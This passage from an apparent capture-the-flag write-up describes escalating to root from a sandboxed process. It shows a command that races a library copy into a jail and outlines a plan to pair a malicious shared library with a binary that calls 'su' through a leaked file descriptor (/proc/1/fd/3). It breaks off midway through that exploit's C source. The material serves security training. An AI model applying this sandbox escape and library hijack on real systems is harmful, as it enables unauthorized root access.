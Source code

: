

    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /usr/bin/id a & until [ -d jails/a ]; do sleep 0.01; done; cp /lib/x86_64-linux-gnu/libselinux.so.1 jails/a/usr/lib/; echo "copied lib"
    [1] 123244
    copied lib
    <program name unknown>: error while loading shared libraries: libpcre2-8.so.0: cannot open shared object file: No such file or directory
    Exited



`id` still failed with an error for another missing library, but it does
show that if I can copy a library into the jail, it will be used by the
`userprog` running in that jail.

### Strategy

I'm going to abuse the `sandbox` application again. All these
capabilities are all dropped before my code gets run, and even before
the `fork` calls, so all three processes are running without these
capabilities. However, if I use my binary to run something that is set
to SetUID, then that process will be running as root. There are no
SetUID binaries in the jail, but I already showed I can access files
outside the jail using the file descriptor in PIDs 1 or 3.

I've also shown that I can copy libraries into the jail and have those
used.

Putting this all together, I'll write two binaries. The first is a
malicious executable that will:

-   Sleep for a second to allow me time to load libraries into the jail.
-   Exploit the file descriptor to call a SetUID binary using `popen`.

The second is a malicious library that is loaded by the SetUID binary
called by the executable. If I can get this library into the jail while
the loader sleeps, then when the SetUID binary runs, it will run my
malicious library, giving execution as root.

### Binary to Launch su

#### Write and Compile Binary

I'll write a binary that will sleep and then launch `su` using the same
trick I used to get a foothold:



    #include <stdio.h>
    #include <unistd.h>

    int main() {

        sleep(3);

        size_t bytesRead = 0;

        FILE *run = popen("/proc/1/fd/3/../../../../../../../usr/bin/su", "r");
        char buf[1000] = {0};
